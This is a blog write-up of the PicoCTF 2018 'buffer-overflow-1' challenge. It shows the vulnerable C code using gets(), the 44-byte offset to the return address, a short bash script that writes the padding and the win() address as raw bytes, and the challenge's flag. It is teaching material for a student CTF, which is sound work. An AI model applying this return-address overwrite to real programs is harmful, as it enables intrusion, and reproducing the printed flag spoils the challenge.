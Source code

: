 ```yaml
---
layout: article
title: "Buffer Overflows: PicoCTF2018-BufferOverflow-1" 
categories: [Cybersecurity]
author: Ahmed Elmayyah
tags: [Cybersecurity, C, Exploitation, Writeup, Buffer Overflows]
mode: normal 
header:
  theme: dark
article_header:
  type: cover 
  theme: dark
  background_image: false
# Stick to an image with a height of 700
  image:
    src: /assets/images/writeup-pico18-bufferoverflow-1/pico18_bof1_header.jpg
cover: /assets/images/writeup-pico18-bufferoverflow-1/pico18_bof1_cover.jpg
---
```

>I wrote this post back in late May 2019 but hadn’t published it and I don’t really remember why I didn’t. It was supposed to be a follow up for the post on the [buffer overflow basics](/cybersecurity/2019/05/22/buffer_overflows_the_basics.html). 
>
> Anyway since I’ve already written it, here it is.
<!--more-->

For those that don’t know, [PicoCTF](https://picoctf.com/) is a free cybersecurity CTF game targeted at middle and high school students. It has some really nice challenges that get harder as you progress, starting out with very easy ones. I always recommend it as a good starting point for CTFs. This specific challenge is a good starting point to start learning about buffer overflows and how to exploit them.

If you don’t know what CTFs are, check out my article: [The Art of Cybersecurity (And how to get into it)](/cybersecurity/2019/12/02/the_art_of_cybersecurity.html) for some starter info.

> “Okay now you’re cooking! This time can you overflow the buffer and return to the flag function in this [program](https://2018shell.picoctf.com/static/d6146450a41960f6ce43dbfb300d9ef4/vuln)? You can find it in /problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613 on the shell server.” [Source](https://2018shell.picoctf.com/static/d6146450a41960f6ce43dbfb300d9ef4/vuln.c). “

This is the description of the challenge. Since we have the source code available, it is easier to start there and then resort to disassembling the program or debugging it if necessary. By inspecting the source code of the program, we find that the input is taken via a buffer of size 32.


```c
#define BUFSIZE 32
#define FLAGSIZE 64
```

```c
void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```
Enter any string and it’ll say “Okay, time to return… Fingers Crossed… Jumping to 0x80486b3”.

Note: 0x80486b3 was the address in my case. It’ll probably be different if you try to solve the challenge.

This means that it returns to that address in the program's memory. If we change that value, we can make the program return to any address by writing over it using the input.

This can be achieved using a buffer overflow exploit.

I tried entering 32 ‘a’ chars and I didn’t see any change in the address, so I kept increasing them until I found that the address starts changing after entering 44 characters.

The explanation for this is that the saved instruction pointer (before the call to `vuln()`) is located 12 bytes after the last byte in the buffer.

Checking the assembly code using ObjDump, the function we want to run: `win()`, is found at address 080485cb. Which is exactly where we want to return.

```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```

So that means we need to enter 44 dummy characters to the input of the program, and then the address we want the program to return to.

There are no ASCII characters for `0x08 0x04 0x85 0xcb` so we need to write them as raw bytes.

Piping the output from a small BASH script into the input of the program solves this issue for us.

```sh
for a in `seq 1 44`
do
    echo -n 'a'
done

echo -e \\xcb\\x85\\x04\\x08
```

Mind that the address is entered in reverse (byte-wise) because Intel x86 is Little-Endian which means the least significant byte maps to the lowest memory address. So 0x12345678 would be stored in memory as 0x78563412.

{: style="text-align:center"}
![Output](/assets/images/writeup-pico18-bufferoverflow-1/Output.png)

And boom! We have a flag 🙂

**Flag: picoCTF{addr3ss3s_ar3_3asy3656a9b3}**

- Difficulty: Easy

- Number of points: 200

- Number of solves (as of 23/5/2019): 3065

Thanks for reading!
